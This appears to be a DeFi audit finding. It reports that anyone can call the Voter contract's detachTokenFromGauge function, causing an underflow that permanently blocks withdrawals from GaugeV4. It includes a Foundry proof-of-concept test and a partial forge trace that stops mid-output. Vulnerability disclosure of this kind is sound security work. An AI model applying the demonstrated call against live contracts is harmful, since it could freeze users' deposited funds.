 Decent Mandarin Pangolin

High

# DoS'ing users' locks and deposits in the gauges by calling detachTokenFromGauge permissionlessly

## Summary
This issue stems from the `detachTokenFromGauge` function being permissionless. Just like another issue that I submitted, the culprit is missing access control modifiers for the `detachTokenFromGauge` function of the `Voter` contract.

However, while the first issue *("Voter.detachTokenFromGauge can be called by anyone and allows bypassing the attachments checks, thus allowing to execute withdrawals on locked tokens")* highlights the attack vector where a malicious actor can withdraw tokens that are expected to be "locked" and **attached** to 1+ gauges, **this issue demonstrates an attack vector where user's deposists can be permanently DoS'ed from being withdrawn due to an underflow error**.

## Vulnerability Detail
Users' positions can get DoS'ed in the `GaugeV4` contract. This will lead to user funds being stuck, disruption of the normal user flow, as well as inability to properly accrue for `totalSupply`s and users' `balanceOf`s and `balanceWithLock`s.

## PoC
Please modify the `PairTest::testGaugeClaimRewards3` function with the following contents to see how fair users can get DoS'ed from withdrawing their locks from the `GaugeV4`:
```solidity
    function testGaugeClaimRewards3() public {
        gaugeClaimRewards2();

        pair.approve(address(gauge), PAIR_1);
        gauge.deposit(PAIR_1, 0);
        FLOW.approve(address(gauge), FLOW.balanceOf(address(owner)));
        gauge.notifyRewardAmount(address(FLOW), FLOW.balanceOf(address(owner)));

        vm.warp(block.timestamp + 604800);
        vm.roll(block.number + 1);
        address[] memory rewards = new address[](1);
        rewards[0] = address(LR);
        gauge.getReward(address(owner), rewards);

        voter.detachTokenFromGauge(1, address(this)); // @@ <<< this is how users can get DoS'ed

        gauge.withdraw(gauge.balanceOf(address(owner)));
    }
```

The logs with `forge test -vvv --match-contract PairTest` will be:
```bash
    ├─ [3518] Voter::detachTokenFromGauge(1, PairTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496])
    │   ├─ [884] VotingEscrow::detach(1)
    │   │   └─ ← [Stop] 
    │   ├─ emit Detach(owner: PairTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], gauge: PairTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], tokenId: 1)
    │   └─ ← [Stop] 
    ├─ [668] Gauge::balanceOf(PairTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   └─ ← [Return] 1000000000 [1e9]
    ├─ [17222] Gauge::withdraw(1000000000 [1e9])
    │   ├─ [3177] Pair::transfer(PairTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 1000000000 [1e9])
```